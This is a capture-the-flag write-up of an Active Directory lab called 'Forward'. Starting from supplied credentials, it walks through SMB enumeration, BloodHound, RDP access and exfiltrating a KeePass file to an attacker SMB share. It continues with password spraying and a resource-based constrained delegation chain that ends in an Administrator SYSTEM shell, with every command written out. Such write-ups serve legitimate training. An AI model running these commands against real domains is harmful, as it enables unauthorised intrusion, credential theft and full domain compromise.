


---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
  tags:
    visible: true
  actions:
    visible: true
  anchors:
    visible: true
---

# Forward

**Overview**\
Forward is a practical challenge that is built around an assumed breach scenario. Credentials of the user j.smith and corresponding password is provided and we have to navigate through the compromised Active Directory, move laterally through the domain and escalate our way through the domain.&#x20;

**Main concepts involved** \
nmap,RDP, KeePass, Active Directory, Bloodhound, Kerberos, RBCD, Impacket<br>

Recon

```
// nmap -sV -sC 10.113.172.120 
```

<figure><figcaption></figcaption></figure>

The above ports were found to be opened.  With the provided credentials we shall start with SMB and LDAP enumeratoin to understand what information the server exposes.

Let us first resolve the hostname to our IP, this will append 10.113.172.120   HOSTNAME to a local hosts file which then we can put the details into /etc/hosts.

```
// nxc smb 10.113.172.120 -u 'j.smith' -p 'JSmith@IT2024' --generate-hosts-file hosts
```

```
// cat hosts        
10.113.172.120     DC01.ctf.local ctf.local DC01
```

We authenticate as j.smith against SMB via NetExec and enumerate the shares.

```
// nxc smb 10.113.172.120 -u 'j.smith' -p 'JSmith@IT2024' --shares
```

<figure><figcaption></figcaption></figure>

We have a readable downloads share but when we login and enumerate the share we find it blank. We try the other shares but they have no concrete exposure.

<figure><figcaption></figcaption></figure>


Bloodhound Enumeration

We focus on using bloodhound to enumerate the target. We use bloodhound-python to get a compressed file that we can then ingest to the bloodhound GUI that we will have started on our computer.&#x20;

```
// bloodhound-python -u 'j.smith' -p 'JSmith@IT2024' -d ctf.local -ns 10.113.172.120 -c All --zip

```

<figure><figcaption></figcaption></figure>

After ingesting the .zip file to bloodhound UI and check for the user J.smith, we discover that he is part of the Remote Desktop Users and AppLocker-Restricted Groups.&#x20;

<figure><figcaption></figcaption></figure>

We therefore rdc to j.smith with the credentials provided and open up a powershell terminal and check what we have in j.smith directories.

```
// xfreerdp /u:j.smith /p:'JSmith@IT2024' /d:ctf.local /v:10.113.172.120
```

<figure><figcaption></figcaption></figure>

Something worth checking pops up and we see that under the Document's folder we have a Database.kdbx file which is database file format used by KeePass and KeePass-compatible password managers. It is encrypted and therefore high value target for offline cracking. We therefore need to get in to our local computer so that we can crack it.&#x20;

We will there host an smbserver and copy the file to our current working directory

```
// /usr/share/doc/python3-impacket/examples/smbserver.py share $(pwd) -username j.smith -password 'JSmith@IT2024' -smb2support -debug
```

<figure><figcaption></figcaption></figure>

```
Copy the file from target to your tun0 address
// PS C:\Users\j.smith\Documents> copy .\Database.kdbx \\192.168.xxx.xxx\share
```

We extract the crackable hash using keepass2john and then use john. The hash couldnt be cracked in reasonable time and probably this was the existence of a strong master password or the KDF work factor (Argon2 with high memory/iteration settings is intentionally expensive to brute-force).

```
// keepass2john Database.kdbx > kdbx_hash.txt
 john --wordlist=/usr/share/wordlists/rockyou.txt kdbx_hash.txt
```

We therefore resorted to checking whether we could find anything related to keepass within the system and we came across a KeePass app. The app allows us to login with the current windows account just by clicking OK without a need for a master password.&#x20;

<figure><figcaption></figcaption></figure>

Inside we get t.jones as the help desk. We will use the command runas to login as t.jones and see whether he has any interesting files within his directory but get nothing. Checking the bloodhound for groups that he might be in and unfortunately nothing interesting pops up from his account.

<figure><figcaption></figcaption></figure>

We then tried to resort to Password Spraying. Using the password that we got we shall try to password spray across usernames that we will derive. We will use nxc for this using the smb protocol against t.jones and save the usernames into a  users file.

```
// nxc smb 10.113.172.120 -u 't.jones' -p 'REDACTED' --rid | grep "SidTypeUser" | awk -F '\\\\' '{print $2}' | awk '{print $1}' > users
```

Using the users file we created we will try password spraying using the credentials got from the Database.kdbx for the user t.jones who is a Help Desk.&#x20;

```
// nxc smb 10.113.172.120 -u users.txt -p 'REDACTED' --continue-on-success
```

<figure><figcaption></figcaption></figure>

Upon discovery we discovered that the user r.williams to uses the same password as t.jones. We therefore head to bloodhound and enumerate the user r.williams.&#x20;

<figure><figcaption></figcaption></figure>

Checking the user's outbound Object Control we find that he has msDS-AllowedToActOnBehalfOfOtherIdentity attribute. We can abuse this and define a principal that we can allow to impersonate when authenticating to that resource.&#x20;

`More information on this attribute can be found in my deep analysis writeups` &#x20;


Road to Administrator's Flag

R.wiliiams does not control an account with an SPN, therefore we can spawn a new attacker controlled computer account that can be added with Impackets addcomputer.py.

`addcomputer.py -computer-name 'ATTACKERSYSTEM$' -computer-pass 'Pwned' -dc-host DC01 -no-add -domain-netbios ctf.local 'ctf.local/r.williams:REDACTED'`

<figure><figcaption></figcaption></figure>

We now need to configure the target object so that the attacker controlled computer can delegate to it. We will use Impackets rbcd.py.

```
// /usr/share/doc/python3-impacket/examples/rbcd.py -delegate-from 'ATTACKERSYSTEM$' -delegate-to 'DC01$' -action 'write' 'ctf.local/r.williams:REDACTED'

```

<figure><figcaption></figcaption></figure>

Finally we can get a service ticket for the service name we want to pretend to be. In our case we will impersonate Administrator. We will use Impacket's getST.py.&#x20;

```
// getST.py -spn 'cifs/DC01.ctf.local' -impersonate 'Administrator' 'ctf.local/ATTACKERSYSTEM$:Pwned' 
```

<figure><figcaption></figcaption></figure>

We have a ticket saved as Administrator@cifs\_DC01.ctf.local@CTF.LOCAL.ccache. We shall then export and set our ticekt to KRB5CCNAME kerberos environment variable.&#x20;

```
// export KRB5CCNAME=Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache 
```

Finally we can use psexec.py to spawn an interactive SYSTEM-level shell using our cached kerberos ticket as Administrator. We can then find our flag but moving to the Administrator's desktop folder.

```
// psexec.py -k -no-pass -dc-ip 10.113.172.120 DC01.ctf.local  
```

<figure><figcaption></figcaption></figure>

